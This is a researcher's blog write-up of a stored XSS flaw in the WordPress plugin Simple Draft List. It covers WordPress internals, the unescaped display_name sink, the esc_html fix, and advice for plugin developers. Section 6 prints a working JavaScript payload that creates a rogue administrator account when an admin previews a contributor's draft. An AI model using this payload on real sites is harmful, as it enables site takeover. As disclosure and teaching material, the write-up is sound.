

I have a love-hate relationship with WordPress bugs.

On one hand, WordPress powers over 40% of the web, which means a single plugin vulnerability
can affect thousands of sites at once. On the other hand, most WordPress XSS bugs are
painfully boring — grep for echo, find an unescaped variable, report it, collect your
CVE, move on. I've done that loop enough times that it stopped feeling like research and
started feeling like janitorial work.

This one was different.

## 1. WordPress Architecture Primer

Before we touch any plugin code, let me give you the mental model I use when auditing
WordPress. If you already know this stuff, skip ahead — but I find that having a clean
picture of how WordPress routes a request saves a lot of confusion later.

**Two types of requests. Two entry points.**

A front-end request (someone visiting your site) goes through `index.php`. An admin request
(someone in `wp-admin`) goes directly to its respective file under `wp-admin/`. They don't
share the same entry point — but they both converge on `wp-load.php`. That's the bootstrap.
It loads `wp-config.php` (database credentials, secret keys, `ABSPATH`), then pulls in
`wp-settings.php` which registers all core functions, loads plugins, and sets up the theme.

I initially assumed that `wp-load.php` handles routing. It doesn't. It just sets up the
environment. The routing decision comes later, when `wp()` is called — which initializes
`WP_Query` and rewrites the URL into a structured query WordPress can understand.

> Worth noting though: that rewriting only applies to front-end requests. Admin requests,
> REST API calls, and AJAX all have their own handlers and bypass `WP_Query` entirely.



**Actions and filters.**

WordPress's whole extensibility system is two primitives:

- **Actions** — do something at a specific point in execution. Fire and forget, no return value.
- **Filters** — receive data, transform it, return it. They don't mutate by definition.
  The original variable outside the chain is never touched.

```php
// Action: side effect only
add_action('wp_footer', function() {
    echo '<script>console.log("loaded")</script>';
});

// Filter: receives data, must return modified data
add_filter('the_title', function($title) {
    return strtoupper($title);
});
```

When you're tracing data flow through a plugin, filters are your pipeline. Data passes through
every registered callback sequentially. If any callback in the chain outputs without escaping,
that's your sink — and that's what we care about.

---

## 2. The Plugin, the Attack Surface

On March 04 at 8AM. I woke up after what seemed like a full night's sleep (It was Ramadan,
so clearly I'm bluffing) to my friend [letmewin](https://www.linkedin.com/in/abdelkhalek-beraoud-707567245/)
telling me: *"This looks promising"*. He pointed out the sink, but wasn't sure about the source,
and asked me to *"try and see"*. 4 hours later, I popped the XSS, an hour after that, I got to admin :)

The plugin is [**Simple Draft List**](https://wordpress.org/plugins/simple-draft-list/). Small install count. Simple purpose: display a list of
draft posts on the front end using a shortcode. One of those plugins you install and forget
about. And that's exactly what makes it interesting — small plugins rarely go through formal
security review, and their authors tend to trust WordPress core to handle the heavy lifting
on sanitization. That trust, as we'll see, was misplaced here.



When I audit a plugin, I'm looking for three entry points — the three places where a plugin
hooks into WordPress and accepts external input:

```bash
grep -r "add_filter"    . --include="*.php"
grep -r "add_action"    . --include="*.php"
grep -r "add_shortcode" . --include="*.php"
```



Filters and actions, we covered. Shortcodes are different and worth explaining properly,
because they have a distinct security profile.

Shortcodes are `[tag attr="value"]content[/tag]` blocks embedded directly in post content.
Any user who can write post content — and that includes Contributors — can write shortcode tags.
The parsing lives in `wp-includes/shortcodes.php`, and it gets invoked through the `the_content`
filter at priority 11, *after* `wpautop` runs at priority 10. So the order is:

```
the_content fires
  → wpautop (priority 10) — wraps blocks in <p> tags
  → do_shortcode (priority 11) — finds and replaces shortcode blocks
```

`do_shortcode` calls `get_shortcode_regex()`, which dynamically builds a regex from every
currently registered shortcode tag name, then runs `preg_replace_callback` over the content.
Each matched block gets handed to your registered callback. Everything outside the matched
blocks passes through untouched.

The callback must return the replacement HTML. Echo instead of return and the shortcode block
disappears from output while your content bleeds out of order into the page — a fun bug
to diagnose when you're tired.

## 3. Recon: Mapping the Data Flow



I used [wordfence/bbp-dockerwp](https://github.com/wordfence/bbp-dockerwp.git) — a
pre-configured Docker-based WordPress environment designed for vulnerability research, testing,
and debugging. It has Xdebug support, which is great when we want to understand how data flows
from source to sink. The screenshot above was me flexing my neovim debugging environment
(unnecessary but who cares~).

The plugin registers one shortcode. That callback is where everything happens. My job at
this stage is simple: trace every variable that touches output. Where does it come from,
what happens to it on the way, and does it hit the DOM raw?

```bash
grep -r "add_shortcode" . --include="*.php" -n
```

Found it. Navigate to the callback. Trace it top to bottom.



At this point I set a breakpoint at the top of the callback and triggered it by loading a
post preview. Standard stuff.

## 4. The Magic Fallback: `WP_Post::__get()`

This is the part of the bug I find genuinely interesting. Not because it's obscure, but
because it's an intentional design decision in WordPress core that creates an unexpected
data path when plugin developers don't account for it.

`WP_Post` is the class WordPress uses to represent a post. It has standard registered
properties — `ID`, `post_title`, `post_content`, `post_author`, and so on. But it also
implements the PHP magic method `__get()`.

In PHP, `__get()` fires automatically when you access a property that doesn't exist on an
object. WordPress intentionally put this on `WP_Post` so that unregistered property accesses
could fall back to post meta — filtered through sanitization hooks. The idea was good:
plugins could use `$post->my_custom_field` without needing explicit getter methods for
everything.

```php
// From wp-includes/class-wp-post.php
public function __get($key) {
    if ('page_template' === $key && $this->__isset($key)) {
        return get_post_meta($this->ID, '_wp_page_template', true);
    }
    // ... other specific registered cases ...

    return $this->filter($key); // ← the fallback for everything else
}
```


The core developers even discussed this explicitly in [Trac #21309](https://core.trac.wordpress.org/ticket/21309)
— the goal was to "run sanitizers without having to write individual get methods for everything."


The risk is that any property access on a `WP_Post` object that isn't explicitly registered
silently falls through to `__get()`. The fallback path. And the fallback path has different
sanitization behavior than the explicit registered paths.



## 5. The Vulnerable Sink

Back to the plugin. In the shortcode callback, the plugin outputs author information for
each draft post. Specifically, the author's URL:

```php
if ( '' !== $author_url ) {
    $author_link = '<a href="' . esc_url( $author_url ) . '">' . esc_html( $author ) . '</a>'; // ✅ escaped correctly
} else {
    $author_link = $author; // ❌ raw output
}
$this_line = str_replace( '{{author+link}}', $author_link, $this_line );
```

When `$author_url` is set, it goes through `esc_url()` — properly escaped. When it's empty
(no URL on the author's profile), the plugin falls back to outputting `display_name` directly
off the `$post` object.

That property access — `$post->display_name` — triggers `WP_Post::__get()`, because
`display_name` isn't a registered property on `WP_Post`. The magic fallback fires and returns
the value through `get_post_meta( $this->ID, $key, true )`. No context-appropriate escaping. Whatever is stored
in `display_name` lands raw in the HTML output.



So the sink is gated by a condition most authors probably never think about: *does this author
have a URL on their profile?* The escaping only exists in the branch where it's arguably
less necessary. The branch that fires for users without a URL — arguably a more common case
for non-admin contributors — outputs raw data straight to the DOM.




## 6. Exploitation: Contributor → Admin XSS

Because shortcodes can be created by contributors, the latter can create the following script
to elevate his privileges to an admin account, by creating the `hacker` account when the legit admin previews the draft.

```js
var ajaxRequest=new XMLHttpRequest();
var requestURL="/wp-admin/user-new.php";
ajaxRequest.open("GET",requestURL,false);
ajaxRequest.send();
var nonceMatch=ajaxRequest.responseText.match(/id="_wpnonce_create-user"\s+name="_wpnonce_create-user"\s+value="([^"]+)"/);
var nonce=nonceMatch[1];
var params="action=createuser&_wpnonce_create-user="+nonce+"&_wp_http_referer=%2Fwp-admin%2Fuser-new.php&user_login=hacker&email=hacker%40evil.com&pass1=Password123%21&pass2=Password123%21&pw_weak=on&role=administrator&createuser=Add+New+User";
ajaxRequest=new XMLHttpRequest();
ajaxRequest.open("POST",requestURL,true);
ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

This script can be converted to base64 and embedded into an `eval(atob(...))`, just like a normal XSS CTF challenge for delivery
(I'm assuming you know the impact afterwards)

## 8. The Fix

Funnily enough. The fix is one function call:

```php
// Before ❌
$author_link = $author;

// After ✅
$author_link = esc_html( $author );
```

`esc_html()` converts `<`, `>`, `&`, `"`, and `'` into their HTML entity equivalents. The
browser renders them as text. The script tag becomes visible characters, not executable code.

The principle behind it: **escape late, escape in context.** Don't sanitize when data enters
the system and assume you're done. Escape at the exact moment it leaves — and use the function
that matches where it's going:

- HTML content → `esc_html()`
- HTML attributes → `esc_attr()`
- URLs → `esc_url()`
- JavaScript contexts → `esc_js()`

The choice of function isn't stylistic. The escaping is context-specific by design — the
wrong function in the wrong context is still a vulnerability.



The deeper structural fix: don't rely on `WP_Post::__get()` for output-bound data. Access
post meta explicitly with `get_post_meta()` and escape the return value. Explicit beats
implicit when security is on the line.

## 9. Takeaways for Plugin Devs

I'll keep this short because if you've read this far you probably already know what I'm
going to say.

**WordPress core is not your sanitization layer.** The `WP_Post::__get()` fallback was
designed for flexibility — not for safe output. When you access a property on a post object
and it silently routes through a magic method, you're responsible for what comes out the
other side. The core developers can't know what context you're outputting into.

**`shortcode_atts()` does not sanitize.** It merges defaults. That's it. The output from
your shortcode callback still needs `esc_html()`, `esc_attr()`, `esc_url()` — whatever
matches the output context. A lot of plugin authors treat `shortcode_atts()` as a cleaning
step and skip the escaping. It isn't, and they shouldn't.

**Small plugins have real attack surface.** A plugin with a thousand installs and one
shortcode can still give a Contributor a path to Admin. Install count doesn't correlate
with security review depth. If your plugin renders user-influenced data, treat it like a
public-facing input field — because that's exactly what it is.

---

That's the bug. One conditional branch, one magic method, one missing `esc_html()`. The
kind of thing that hides in plain sight until you trace the data all the way to the DOM.

Huge thanks to letmewin for his generosity, teaching me something new every day. I love you brother!


## References

- [WordPress Security Research Series: Request Architecture and Hooks — Wordfence](https://www.wordfence.com/blog/2024/07/wordpress-security-research-series-wordpress-request-architecture-and-hooks/)
- [WordPress for Security Audit — Synacktiv](https://www.synacktiv.com/en/publications/wordpress-for-security-audit)
- [How to Find XSS Vulnerabilities in WordPress Plugins and Themes — Wordfence](https://www.wordfence.com/blog/2024/09/how-to-find-xss-cross-site-scripting-vulnerabilities-in-wordpress-plugins-and-themes/)
- [Over 100 WordPress Plugins Affected by Shortcode-Based Stored XSS — Wordfence](https://www.wordfence.com/blog/2023/12/over-100-wordpress-repository-plugins-affected-by-shortcode-based-stored-cross-site-scripting/)
- [WP_Post class — WordPress Core GitHub](https://github.com/WordPress/WordPress/blob/master/src/wp-includes/class-wp-post.php)
- [WordPress Trac #21309 — Introduce WP_Post class](https://core.trac.wordpress.org/ticket/21309)
- [PHP Manual — Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php)
- [WordPress Developer Docs — Data Sanitization & Escaping](https://developer.wordpress.org/apis/security/sanitizing/)
- [wordfence/bbp-dockerwp — GitHub](https://github.com/wordfence/bbp-dockerwp)
